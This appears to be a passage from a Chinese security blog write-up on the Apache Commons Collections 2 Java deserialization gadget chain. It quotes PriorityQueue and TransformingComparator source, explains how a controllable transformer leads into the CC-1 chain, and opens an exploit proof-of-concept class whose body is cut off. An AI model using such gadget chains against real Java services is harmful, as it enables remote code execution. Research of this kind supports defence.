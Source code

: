 ```java
private void heapify() {
    for (int i = (size >>> 1) - 1; i >= 0; i--)
        siftDown(i, (E) queue[i]);
}

private void siftDown(int k, E x) {
    if (comparator != null)
        siftDownUsingComparator(k, x);
    else
        siftDownComparable(k, x);
}

private void siftDownUsingComparator(int k, E x) {
    int half = size >>> 1;
    while (k < half) {
        int child = (k << 1) + 1;
        Object c = queue[child];
        int right = child + 1;
        if (right < size &&
            comparator.compare((E) c, (E) queue[right]) > 0)
            c = queue[child = right];
        if (comparator.compare(x, (E) c) <= 0)
            break;
        queue[k] = c;
        k = child;
    }
    queue[k] = x;
}
```
> 这里将`comparator`和`TransformingComparator`结合起来，如果这里`this.transformer`是可控的话，就可以进一步利用`CC-1`链的后半段部分

```java
public int compare(I obj1, I obj2) {
    O value1 = this.transformer.transform(obj1);
    O value2 = this.transformer.transform(obj2);
    return this.decorated.compare(value1, value2);
}
```
> 这里需要注意几个地方，在`heapify()`方法处的`size`要是大于`1`的，只有这样才会继续进入到`siftDown()`方法中，而`size`的取值来自于

## POC-1
> 利用`PriorityQueue`和`CommonsCollections-1`后半部分来进行构造

```java
package CommonsCollections2;

import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

/**
 * @Author: H3rmesk1t
 * @Data: 2021/11/26 9:42 下午
 */
public class CommonsCollectionsGadget1 {
```